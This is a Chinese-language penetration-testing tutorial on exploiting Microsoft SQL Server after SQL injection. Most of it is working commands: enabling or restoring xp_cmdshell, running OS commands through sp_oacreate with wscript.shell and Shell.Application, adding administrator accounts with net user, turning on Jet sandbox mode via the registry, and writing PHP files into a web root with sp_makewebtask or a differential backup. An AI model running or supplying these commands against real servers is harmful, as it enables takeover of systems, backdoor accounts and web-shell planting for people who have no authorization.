 # MSSQL利用（注入后）

#### 连接MSSQL

> 链接软件 链接：[https://pan.baidu.com/s/1ktIaeBcsD2qB\_KFzINRSxw](https://pan.baidu.com/s/1ktIaeBcsD2qB_KFzINRSxw) 提取码：yqry

**连接MSSQL 2000**

**新建连接：（数据库-&gt;新建链接-&gt;ms SQL server）**

![](../.gitbook/assets/image%20%2815%29.png)

**填写目的IP、目的端口、用户名、密码：**

**sa   360College**

**一直下一步，完成后，数据库导航窗口会出现一个连接，双击连接：**

![](../.gitbook/assets/image%20%2870%29.png)

若是第一次连接，双击会提示下载驱动文件，若不成功，需多次反复尝试

**新建SQL编辑器即可执行SQL语句：**

![](../.gitbook/assets/image%20%2899%29.png)

查询SQL Server版本SQL语句如下：

```text
select @@version;
```

执行结果：

![](../.gitbook/assets/image%20%2867%29.png)

**连接MSSQL 2008**

**新建连接：**

**填写目的IP、目的端口、用户名、密码：**

**新建查询：**

![&#x53EF;&#x80FD;&#x4F1A;&#x4E0B;&#x8F7D;&#x9A71;&#x52A8;](../.gitbook/assets/image%20%2884%29.png)

**执行SQL语句，查询所有的数据库名称：**

SQL语句：

```text
SELECT Name FROM Master..SysDatabases ORDER BY Name;
```

执行结果：

![](../.gitbook/assets/image%20%28145%29.png)

#### MSSQL利用方式

**xp\_cmdshell**

**1.直接利用：**

SQL语句：

```text
exec master..xp_cmdshell 'whoami';
```

SQL Server 2000结果：

![](../.gitbook/assets/image%20%28150%29.png)

SQL Server 2008结果：

![](../.gitbook/assets/image%20%28104%29.png)

xp\_cmdshell存储过程在 SQL Server 2005以后默认关闭，需要手动开启

开启xp\_cmdshell命令如下：

```text
exec sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure'xp_cmdshell', 1;RECONFIGURE;
```

有的时候不支持多句执行，那就采用分步执行，开启xp\_cmdshell过程如下：

```text
exec sp_configure 'show advanced options', 1;       //开启高级选项
RECONFIGURE;                                        //配置生效
exec sp_configure 'xp_cmdshell', 1;                  //开启xp_cmdshell 
RECONFIGURE;                                        //配置生效
```

可以通过exec sp\_configure查看xp\_cmdshell状态：

```text
exec sp_configure
```

![](../.gitbook/assets/image%20%28103%29.png)

再次执行系统命令：

```text
exec master..xp_cmdshell 'whoami';
```

![](../.gitbook/assets/image%20%2891%29.png)

```text
exec master..xp_cmdshell 'ipconfig';
```

![](../.gitbook/assets/image%20%2840%29.png)

关闭xp\_cmdshell过程如下：

```text
exec sp_configure 'show advanced options', 1;       //开启高级选项
RECONFIGURE;                                        //配置生效
exec sp_configure'xp_cmdshell', 0;                  //关闭xp_cmdshell 
RECONFIGURE;                                        //配置生效
```

**2.恢复xp\_cmdshell：**

判断是否xp\_cmdshell存储过程，返回1代表存在：

```text
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'       
```

在SQL Server 2005及之前的版本，管理员可能采用下面命令可以将xp\_cmdshell删除：

```text
exec master..sp_dropextendedproc xp_cmdshell;
```

此时若使用xp\_cmdshell，会提示“未能找到存储过程”,如下：

![](../.gitbook/assets/image%20%2863%29.png)

需使用下面命令可以恢复：

```text
exec master.dbo.sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int;
```

恢复xp\_cmdshell需要xplog70.dll，但有的管理员会将xplog70.dll一并删除：

![](../.gitbook/assets/image%20%2881%29.png)

如果有上传权限，可以上传xplog70.dll，并执行：

```text
exec master.dbo.sp_addextendedproc xp_cmdshell,@dllname ='C:\xplog70.dll'declare @o int;
```

**sp\_oacreate**

SQL Server 2008不可用，SQL Server 2000可添加管理员用户：

DECLARE @js int EXEC sp\_oacreate 'ScriptControl',@js OUT EXEC sp\_OASetProperty @js, 'Language', 'JavaScript' EXEC sp\_OAMethod @js, 'Eval', NULL, 'var o=new ActiveXObject\("Shell.Users"\);z=o.create\("test1"\);z.changePassword\("test1",""\);z.setting\("AccountType"\)=3;'

**sp\_makewebtask**

SQL Server 2008不可用，SQL Server 2000可新建文件：

exec sp\_makewebtask 'C:\test1.php',' select ''&lt;?php phpinfo\(\);?&gt;'' ';;--

**wscript.shell**

SQL Server 2008、SQL Server 2000均可用：

declare @shell int exec sp\_oacreate 'wscript.shell',@shell output exec sp\_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user test2 test2 /add'

declare @shell int exec sp\_oacreate 'wscript.shell',@shell output exec sp\_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators test2 /add'

执行结果：

**Shell.Application**

SQL Server 2008不可用，SQL Server 2000可用：

declare @o int exec sp\_oacreate 'Shell.Application', @o out exec sp\_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user test3 test3 /add','c:\windows\system32','','1';

**沙盒模式**

只有Windows xp 与 Windows 2003可用：

开启沙盒模式：

exec master..xp\_regwrite 'HKEY\_LOCAL\_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG\_DWORD',0;--

执行系统命令：

select \* from openrowset\('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell\("cmd.exe /c net user test4 test4 /add"\)'\)

#### MSSQL差异备份

MSSQL 2008

查询库名：

```text
SELECT DB_NAME()
```

也可以创建数据库：

```text
create database test2;
```

先进行一次完整备份：

```text
backup database test2 to disk = 'c:\test2.bak';
```

使用数据库：

```text
use test2;
```

创建新表：

```text
create table [dbo].[test2] ([cmd] [image]);
```

向表中插入数据：

```text
insert into test2(cmd) values(0x3c3f70687020706870696e666f28293b3f3e);
```

3c3f70687020706870696e666f28293b3f3e为16进制的&lt;?php phpinfo\(\);?&gt; 进行差异备份：

```text
backup database test2 to disk='C:\phpStudy\PHPTutorial\WWW\test2.php' WITH DIFFERENTIAL,FORMAT;
```

访问目标地址：

